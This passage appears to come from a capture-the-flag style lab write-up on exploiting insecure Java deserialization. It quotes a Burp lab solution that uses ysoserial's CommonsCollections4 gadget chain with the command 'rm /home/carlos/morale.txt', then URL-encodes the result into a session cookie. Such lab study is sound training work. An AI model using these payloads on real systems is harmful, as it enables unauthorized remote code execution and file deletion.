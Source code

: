 Now, we copy paste that value in the Cookie session, then we select it and with CTRL-u, we url-encode it (the key characters). Then we send the request.

![Insecure deserialization](../img/indes_15.png)

```
# Burp solution

1. Log in to your own account and observe that the session cookie contains a serialized Java object. Send a request containing your session cookie to Burp Repeater.
2. Download the "ysoserial" tool and execute the following command. This generates a Base64-encoded serialized object containing your payload:
    
    - In Java versions 16 and above:
        
        `java -jar ysoserial-all.jar \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \ --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \ --add-opens=java.base/java.net=ALL-UNNAMED \ --add-opens=java.base/java.util=ALL-UNNAMED \ CommonsCollections4 'rm /home/carlos/morale.txt' | base64`
    - In Java versions 15 and below:
        
        `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64`
3. In Burp Repeater, replace your session cookie with the malicious one you just created. Select the entire cookie and then URL-encode it.
4. Send the request to solve the lab.
```


## Exploiting PHP deserialization with a pre-built gadget chain
